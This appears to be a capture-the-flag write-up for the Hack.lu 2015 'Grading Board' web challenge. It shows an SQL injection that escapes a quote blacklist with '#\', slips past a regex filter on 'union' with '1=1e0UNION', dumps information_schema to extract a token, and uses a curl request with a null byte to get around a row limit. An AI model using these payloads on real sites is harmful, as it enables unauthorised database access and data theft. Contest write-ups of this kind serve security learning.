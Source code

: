 #Hack.lu 2015 Grading Board [web] 300

#Problem
You are sitting in your computer science class and are already done with your assignment (well, who would have guessed that). But you know that even though you did a perfect job (obviously) your teacher will give you a shitty grade because he can't stand your face.<br>
Well well well, it is time to put your skills on the table and show that son of a ... (you know the word I am looking for)... who the boss is. Thanks to the Ashley Madison dump and the stupidity of your teacher (seriously, how can he even teach the class...) you got the login credentials to the grading board.<br>
But, unlucky for you, your shithead of class mate found a vulnerability inside the website and went all whitehat on that shit and reported it (believe me I know ....in a different world...), he was also tasked to improve the security of the system.<br>
Fortunately for you, he left his phone unlocked and unattended, which allowed you to forward yourself the email containing the patch for the website, .... end to end encryption out of the window right there....,<br>
Alright son, get your shit together and let's get cracking<br>

Here is the [patch](https://school.fluxfingers.net/static/chals/patch_953dc87b784435d237b33a4f2fc20612.diff)!<br>
And the [Website](https://school.fluxfingers.net:1506/)

The login credentials are:<br>
Username: kdavis<br>
Password: trolo!Fool<br>

##Solution
The website is divided into two parts: search and login.<br>
![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/1.png)<br>
![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/2.png)

The account for signing in is given in the problem description. After login, the website will ask for token.<br>
![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/3.png)

After taking a short look at the patch file, I saw following SQL syntax:
<pre>
<code>
select id, first_name, last_name from students
WHERE first_name='$name'
   OR last_name='$name' ORDER BY id ASC LIMIT 5;
</code>
</pre>

And the blacklist replaced **'**, **"**, **/** and * , So it was possible to use '**#\**' to escape the single quote. The SQL syntax would become:
<pre>
<code>
select id, first_name, last_name from students
            WHERE first_name='<SQLi>#\' OR last_name='<SQLi>#\' ORDER BY id ASC LIMIT 5;
</code>
</pre>

<br>After trying "**OR 1=1 #\**" as input, the SQLi worked.<br>
![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/4.png)

Also, the patch tried to disable union SQLi by regex: [^a-zA-Z0-9\_]union[^a-zA-Z0-9\_]<br>
But we still have some ways to bypass the limitation.<br>
[Union Bypass Reference](https://github.com/client9/libinjection/blob/master/data/sqli-rsalgado-bhusa2013.txt)<br>
In the reference, it showed that SQL syntax still worked with content "OR 1=1**e0**Union...". We could use this trick to bypass the above limitation.<br>

In the patch, it told us how the table name was generated and all the column names we had in the table, but it was also easy to use information\_schema to get all the information we needed. Just entered following input:
<pre><code>
AND 1=1e0UNION SELECT table_schema, table_name, column_name FROM information_schema.columns#\
</code></pre>

![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/5.png)<br>
The table name and column name were there!<br>

And then we entered following input:
<pre><code>
AND 1=1e0UNION SELECT 1, 2, token FROM t608f2cde509866e#\
</code></pre>

![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/6.png)

After summiting the token, I got the flag. :)<br>
![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/flag.png)

<br>
Note:<br>
It's also able to bypass the limit of "LIMIT 5" by using null byte. We can modify our input as following and use curl to send our post request:
<pre><code>
curl -X POST --data "name=AND 1=1e0union select table_schema, table_name, column_name FROM information_schema.columns;%00\&site=default&action=search" https://school.fluxfingers.net:1506/
</code></pre>
And you can get the whole results instead of 5 columns only.

